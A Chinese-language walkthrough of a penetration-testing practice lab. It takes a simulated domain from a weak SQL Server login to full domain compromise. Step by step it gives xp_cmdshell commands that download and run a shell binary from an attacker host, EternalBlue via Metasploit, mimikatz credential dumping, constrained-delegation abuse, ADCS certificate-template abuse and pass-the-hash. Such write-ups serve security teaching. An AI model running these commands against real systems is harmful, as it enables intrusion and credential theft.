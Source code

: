 # 《内网渗透体系建设》简易教学练习环境WP

By WHOAMI、Venenof7

## Web01

部署好全部虚拟机后，首先扫描本地存活主机，以发现 Web01 的地址：

```
./fscan.exe -np -h 192.168.162.1/24
# 因为 Web01 开了防火墙，所以需要指定 -np 禁止 ping
```

![image-20240222121702332](./images/image-20240222121702332.webp)

先访问 80 端口：

![image-20240222115713142](./images/image-20240222115713142.webp)

1433 端口上存在 SQL Server 弱口令，用sa/123456即可成功登录。然后通过 xp_cmdshell 执行系统命令即可：

```sql
/* 判断当前是否为 DBA 权限，返回 1 则可以提权 */
SELECT IS_SRVROLEMEMBER('sysadmin');

/* 查看是否存在 xp_cmdshell，返回 1 则存在 */
SELECT COUNT(*) FROM master.dbo.sysobjects WHERE xtype='x' AND name='xp_cmdshell'

/* 开启 xp_cmdshell */
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

/* 执行系统命令 */
EXEC master.dbo.xp_cmdshell 'cd C:\Users\Public & certutil -urlcache -split -f http://192.168.162.130:8080/she1l.exe';

EXEC master.dbo.xp_cmdshell 'C:\Users\Public\she1l.exe'
```

成功上线 Web01 这台服务器：

![image-20240222121422282](./images/image-20240222121422282.webp)

由于此时是服务账户权限，我们可以通过 Windows 令牌操纵技术获取 System 权限。上传 PrintSpoofer.exe，然后执行以下命令即可提升至系统权限：

```
PrintSpoofer.exe -i -c cmd
```

![image-20240222122220971](./images/image-20240222122220971.webp)

## 内网存活扫描

我们发现一个内网网段 172.22.10.1/24：

![image-20240222122300181](./images/image-20240222122300181.webp)

上传 fscan 扫描内网：

![image-20240222122441289](./images/image-20240222122441289.webp)

![image-20240222122451598](./images/image-20240222122451598.webp)

发现内网存活的主机，并且存在域环境，域名为 aerospace.local，域控制器为 DC01.aerospace.local，IP 为 172.22.10.11。

此外，还存在 ADCS，证书颁发机构为 CA.aerospace.local。

## WIN-PC8086

WIN-PC8086 这台域成员机器存在 MS17_010 漏洞，ip为 172.22.10.36，使用 msf 挂上代理，用 bind_tcp 类型的 payload 直接打：

```
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp
set rhosts 172.22.10.36
set lport 4444
run
```

成功获取 SYSTEM 权限：

![image-20240222122857732](./images/image-20240222122857732.webp)

由于这台机器位于域内，因此我们可以用他的机器账户收集域内信息。加载 kiwi 模块，抓取 WIN-PC8086 计算机账户的哈希值：

```
load kiwi
kiwi_cmd "sekurlsa::logonpasswords"
```

![image-20240222124817297](./images/image-20240222124817297.webp)

然后，使用 [Impacket](https://github.com/fortra/impacket) 套件中的 findDelegation.py 枚举域内委派关系：

```bash
python3 findDelegation.py aerospace.local/WIN-PC8086\$ -hashes :******** -dc-ip 172.22.10.11
```

![image-20240222125323210](./images/image-20240222125323210.webp)

发现当前的 WIN-PC8086 机器对域内 WIN-PC8098 这台机器的 HOST 和 CIFS 服务具有约束委派权限，因此可以通过约束委派获取 WIN-PC8098 的权限。

## WIN-PC8098

我们使用 [Impacket](https://github.com/fortra/impacket) 套件中的 getST.py 脚本进行约束委派攻击。执行以下命令，使用 WIN-PC8086 账户代表域管理员用户 Administrator 获取 WIN-PC8098 机器上 CIFS 服务的票据：

```bash
python3 getST.py aerospace.local/WIN-PC8086\$ -hashes :******** -spn CIFS/WIN-PC8098.aerospace.local -impersonate Administrator -dc-ip 172.22.10.11
```

![image-20240222125738235](./images/image-20240222125738235.webp)

成功申请到票据后，通过设置环境变量 `KRB5CCNAME` 来使用该票据，并通过 wmiexec.py 获取 WIN-PC8098 机器的最高权限：

```bash
export KRB5CCNAME='Administrator@CIFS_WIN-PC8098.aerospace.local@AEROSPACE.LOCAL.ccache'
python3 wmiexec.py -k aerospace.local/Administrator@WIN-PC8098.aerospace.local -no-pass -dc-ip 172.22.10.11
```

![image-20240222130846243](./images/image-20240222130846243.webp)

在 WIN-PC8098 机器上发现了一个域用户 liuyuhua 的进程：

![image-20240222132551554](./images/image-20240222132551554.webp)

然后考虑上传 mimikatz 抓取该用户的哈希值。由于该机器开启了 Windows defender，可以考虑新建一个管理员用户登录到远程桌面，然后将 Windows defender 关闭后在运行 mimikatz。

抓取到 liuyuhua 的哈希值为 :********：

![、](./images/image-20240222133044952.webp)

## DC01

由于环境中存在 ADCS 服务，因此考虑通过 [Certify](https://github.com/GhostPack/Certify) 枚举错误配置。还是在 WIN-PC8098 机器上，，然后执行以下命令：

```
Certify.exe find /vulnerable
```

![image-20240222134937394](./images/image-20240222134937394.webp)

发现一个名为 AeroUser 的证书模板，开启了 `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` 标志，并且所有的域用户账户都有注册权限。那么我们可以以域内任何用户的身份请求证书，包括域管理员用户或域控制器的机器账户，并使用该证书获取合法用户的 TGT，一次实现域权限提升。

执行以下命令，通过 [Certipy](https://github.com/ly4k/Certipy) 工具为域管理员用户申请证书：

```bash
certipy-ad req -username liuyuhua@aerospace.local -hashes :******** -ca aerospace-CA-CA -target CA.aerospace.local -template AeroUser -upn Administrator@aerospace.local -dns DC01.aerospace.local -debug
```

![image-20240222140815015](./images/image-20240222140815015.webp)

申请到了名为 administrator_dc01.pfx 的证书，然后执行以下命令，通过该证书进行 kerberos 身份验证，可以成功拿到域管理员用户的 TGT 票据和 NTLM 哈希：

```bash
certipy-ad auth -pfx administrator_dc01.pfx -dc-ip 172.22.10.11
```

![image-20240222141014583](./images/image-20240222141014583.webp)

可以看到，已经成功拿到了域管理员的 NTLM 哈希，接下来直接哈希传递即可获取域控制器权限了：

```BASH
python3 wmiexec.py aerospace.local/Administrator@dc01.aerospace.local -hashes ********:******** -dc-ip 172.22.10.11
```

![image-20240222141221545](./images/image-20240222141221545.webp)

## CA

同样是哈希传递，可以获取 CA 的权限：

```
python3 wmiexec.py aerospace.local/Administrator@ca.aerospace.local -hashes ********:******** -dc-ip 172.22.10.11
```

![image-20240222141327594](./images/image-20240222141327594.webp)

